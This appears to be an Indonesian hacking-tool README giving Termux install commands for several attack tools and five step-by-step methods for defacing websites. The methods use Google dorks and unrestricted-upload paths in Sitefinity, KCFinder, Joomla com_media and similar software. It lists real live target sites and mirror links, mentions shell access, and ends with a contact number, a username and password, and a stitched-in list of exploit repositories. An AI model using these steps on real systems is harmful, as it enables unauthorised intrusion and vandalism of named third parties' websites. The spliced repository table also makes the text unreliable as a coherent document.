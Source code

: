 (````Install``` *Hunner framework*) $ apt update  $ apt install python $ apt install git -y $ git clone https://github.com/b3-v3r/Hunner $ cd Hunner $ chmod 777 hunner.py $ python hunner.py *Cara Install Lazymux di Termux* $ pkg update && upgrade  $ pkg install python2  $ pkg install git  $ git clone https://github.com/Gameye98/Lazymux  $ cd Lazymux  $ chmod +x lazymux.py  $ python2 lazymux.py Cara install tools daijobu* Fungsinya nanti liat sendiri lah di dalem tools nya  $apt upgrade && apt update  $apt install php  $apt install git  Kalo udah selesai langsung masukan git nya dengan perintah  $git clone https://github.com/alintamvanz/diejoubu  $cd diejoubu  $cd v1.2  $php diejoubu.php Hecker RECONDOG apt update apt install python python2 apt install git git clone https://github.com/UltimateHackers/ReconDog cd ReconDog chmod +x dog.py Python2 dog.py DEFACE Hacking Script-Deface $apt update $apt upgrade $apt install git $apt install python2 $git clone https://github.com/Ubaii/script-deface-creator $ls $cd script-deface-creator $ls $chmod +x create.py $ls $python2 create.py done semoga bisa bikin script Html CARA DEFACE  Cara1 Siapkan script sendiri.. 1.buka browser kalian apa saja terserah lalu ke google 2.tulis dork nya berikut ini (inurl:%sitefinity/login.aspx) tanpa tanda buka kurung dan tutup kurung! lalu search 3.pilih lah salah satu website terserah kalian,klik website nya lalu tambahkan exploit nya sebagai berikut (sitefinity/usercontrols/dialog/documenteditordialog.aspx) tanpa buka tutup kurung! E http://sitetarget*org/sitefinity/usercontrols/dialogs/documenteditordialog.aspx 4.lalu klik search kembali! nah disitu kalian klik chose file dan pilih script deface punya kalian 5.klik yang di bawah nya tunggu sampai loading selesai 6.tambah link target tadi dengan (/files) contoh http://sitetarget*org/files/namascriptdefacekalian.html lalu klik search 7.selesai!! Cara2 Method/metode KCFinder Inurl:/kcfinder/browse.php Inurl:/Kcfinder/ Langsung saja upload file deface anda,lalu panggil dengan tambahan /file/namasckamu.html Contoh: https://basukiwater.com/kcfinder/browse.php jadi https://basukiwater.com/file/namasckamu.html cara3 Deface Onion.to File Upload  Tutor ini sekarang lagi Ngtreend & Simple , tapi ingat ya bukan Deepweb melaikan Fake Deepweb hehehe... Mari kita Lanjut... Dork : - inurl:/upload site:.onion.to            - intext:%Upload% site:.onion.to Live : https://tt3j2x4k5ycaa5zt.onion.to/upload.php Step By Step : 1. Dorking Dulu 2. Pilih Web Target 3. Pilih File yang mau di%upload 4. Tinggal klik Upload => Done 😆 Contoh Target : https://tt3j2x4k5ycaa5zt.onion.to/uploads/lopeyou.html https://danwin1210.me/uploads/lopeyou.html https://temp.xn--wda.fr/e719x8JgJ.html Mirror?! 😆 https://www.defacer.id/296011.html https://www.defacer.id/296024.html cara4 Metode com media Bahan : 1. Dork : - inurl:com_media site:com             - inurl:com_media intext:%Upload% 2. Exploit : /index.php?option=com_media&view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder= 3. Upload%an : Format .txt 😁 Live Target : http://www.james-insurance.co.uk/ Step by Step : gunakan Live Targert dulu untuk Uji Coba 😁 1. Masukkan dork : inurl:com_media intext:%Upload% site:co.uk 2. Pilih salah satu Web 3. Masukkan Exploit http://www.james-insurance.co.uk/index.php?option=com_media&view=images&tmpl=component&fieldid=&e_name=jform_articletext&asset=com_content&author=&folder= 4. Lalu Upload file dalam tempat upload ( format .txt ) Akses shell ? Tambahkan : /images/namafile.txt                        contoh : http://www.james-insurance.co.uk/images/fac.txt Nanti Jadi Gini Hasilnyaa.. Mudah Bukan?! Tinggal Upload ke Defacer.id 😁 cara5 [POC] Vulnerability Simplicity Of Upload #Step 1: Dork: “Powered By: © Simplicity oF Upload” #Step 2: Exploit: http://[situstargetkamu]/PATH/upload.php *Tergantung dengan target. #Step 3: llowed file: gif, jpg, png, txt, php, asp, cgi, zip, exe, mp3, etc (not allowed for html) #Step 4: Preview: http://[situstargetkamu]/upload/[Your File] #Step 5: Live Demo: http://www.railfaneurope.net/pix/upload.php http://www.formplas.com/upload/upload.php Nah, saya kira cukup segitu aja kok, karena mudah tuh tutorial nya. Al in one crip termux $ apt update && apt upgrade $ pkg install php figlet ruby python python2 $ pip2 install lolcat $ git clone https://github.com/Rusmana-ID/rus $ cd $ cd rus $ ls $ sh v2.sh Kontak wa 083879017166 Note: user name:Rusmana Pasword:X-One | https://github.com/taufiks22/new | 1 | 0| 
| 20200915T12:22:09Z | Exploit Code for CVE-2020-1472 aka Zerologon | https://github.com/VoidSec/CVE-2020-1472 | 22 | 5| 
| 20200915T12:16:07Z | Commands, snippets, exploits, tools, lists, collections and techniques I used on my journey to becoming an OSCP.  | https://github.com/CountablyInfinite/oscp_cheatsheet | 0 | 0| 
| 20200915T11:35:12Z | This repository is primarily maintained by Omar Santos and includes thousands of resources related to ethical hacking  / penetration testing, digital forensics and incident response (DFIR), vulnerability research, exploit development, reverse engineering, and more. | https://github.com/The-Art-of-Hacking/h4cker | 7238 | 1184| 
| 20200915T11:34:23Z | Null | https://github.com/quentin452/Cats-Exploitz-HUB | 0 | 1| 
| 20200915T11:06:10Z | out-of-tree kernel {module, exploit} development tool | https://github.com/jollheef/out-of-tree | 173 | 27| 
| 20200915T10:48:24Z | A faithful recreation of the Windows 96 exploitation system. | https://github.com/beurkinger/windows-96 | 0 | 0| 
| 20200915T10:09:32Z | A collection of hacking / penetration testing resources to make you better! | https://github.com/vitalysim/Awesome-Hacking-Resources | 9863 | 1528| 
| 20200915T09:58:13Z | My collection of exploit development skeletons for fuzzing, overwriting the stack, remote code execution, etc. | https://github.com/shipcod3/sploitchits | 11 | 5| 